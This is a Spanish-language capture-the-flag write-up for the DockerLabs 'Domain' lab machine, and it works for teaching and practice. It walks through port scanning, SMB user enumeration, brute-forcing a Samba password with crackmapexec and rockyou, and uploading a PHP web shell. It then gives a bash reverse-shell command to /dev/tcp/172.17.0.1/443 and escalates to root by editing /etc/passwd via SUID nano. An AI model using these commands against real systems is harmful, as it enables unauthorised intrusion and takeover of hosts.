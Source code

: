 # [Domain](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh domain.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que están abiertos los puertos **80**, **445** y **139**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b7ea8327-2ddf-4d14-a618-e260f3e0f890)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP podemos ver una página la cuál explica ¿Qué es samba?: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4bd0efb7-0737-426b-b58e-2f4ca64e2bcd)

<br>
<br>

## Samba (Puerto 445)
En primer lugar, listaremos los recursos compartidos con smbmap de la siguiente forma: `smbmap -H 172.17.0.2 -P 445`, observamos los siguientes recursos: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5921f1a9-2a11-4c28-8322-b17bcf3d9d6b)

<br>

Ahora intentamos enumerar posible usuario de la máquina Domain para posteriormente intentar hacer fuerza bruta al servicio de samba.
<br>

Lo haremos de la siguiente forma `enum4linux -a 172.17.0.2`, podemos ver que nos reporta 2 usuarios `james` y `bob`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/adc5015f-f5f6-40ce-9230-f998216f7ca2)

<br>
<br>

## Hydra / Medusa
Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio samba usando hydra en primer lugar, usaremos el usuario bob `hydra -l bob -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

Nos reporta el siguiente error: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0cc474a4-ec7d-4240-93ee-5c72882793bf)

<br>

Por lo que debemos usar otra herramienta de fuerza bruta (medusa tampoco funciona), en este caso usaremos `crackmapexec` usando el siguiente comando `crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt`, podemos ver que usando `crackmapexec` no nos sale el error de antes, y nos reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ace3db99-9351-4693-838a-fce977aaa785)

<br>
<br>

## Samba (Puerto 445)
Una vez conocemos el usuario y su contraseña probamos a entrar al recurso compartido html de la máquina Domain con smbclient de la siguiente forma `smbclient //172.17.0.2/html -U bob`, y a continuación nos pedirá la contraseña. Podemos ver que dentro de este recurso se encuentra el índice de la página web lo que nos da ha entender que todo lo que haya en esa carpeta será accesible desde dicho servidor.

<br>

Por lo que deberíamos hacer ahora sería enviarnos una revshell a nuestra máquina de atacante, lo haríamos de la siguiente forma. En primer lugar nos creamos un `cmd.php` que contendrá lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/84df3bd1-4baf-481d-90bc-705d989992ea)

<br>

Ahora lo podremos dentro de la carpeta compartida (`html`) a través de samba dentro de la máquina Domain. Debemos logearnos a samba como lo hicimos anteriormente (`smbclient`) en la carpeta donde tenemos nuestro `cmd.php`, una vez dentro del samba hacemos `put cmd.php`, y listo ya estaría el archivo subido al servidor web.

<br>

Accederemos a el poniendo `http://172.17.0.2/cmd.php`, y ahora abusaremos de la vulnerabilidad (RCE), podemos ver que si le pasamos el parámetro `id` de la siguiente manera `http://172.17.0.2/cmd.php?cmd=id` nos da esta respuesta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d886d5da-bb94-49c3-a0f6-7ab2ca43acb5)

<br>

Por lo que ahora nos mandaríamos una revshell poniendo lo siguiente en el buscador `http://172.17.0.2/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recuerda que debemos estar en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/10637016-dd1d-47d7-98ec-f9e63913b1f5)

<br>
<br>

## Escalada de Privilegios

Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fbe027ae-cf12-4d98-93a3-536a8fa9d99f)

<br>

Vemos que también se encuentra el usuario `bob` probamos a autenticarnos haciendo `su bob` y poniendo la contraseña y listo somos el usuario `bob`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6a08e8b6-4e82-4642-a31a-32af6d3ed12a)

<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).

<br>

Hacemos la siguiente comprobación para ver la posible escalada ejecutando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/nano`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/38e5b90e-429f-48ac-a241-ac0fbf0c0be0)

<br>

Por lo que podríamos hacer con nano es modificar cualquier fichero ya que contamos con permisos SUID, lo que se nos ocurriría sería modificar el `/etc/passwd`, lo que tendríamos que hacer sería quitarle la `x` al root por lo que podríamos logearnos como root sin proporcionar contraseña. Haríamos `nano /etc/passwd` y el archivo quedaría así:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/30eb18a1-0fb6-4081-8655-85ad45a8b88a)

<br>

Y si hacemos `su root` comprobamos que no nos pedirá contraseña y listo ya seremos root.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd122cf1-b071-4d1b-aef9-62afeb9176fe)

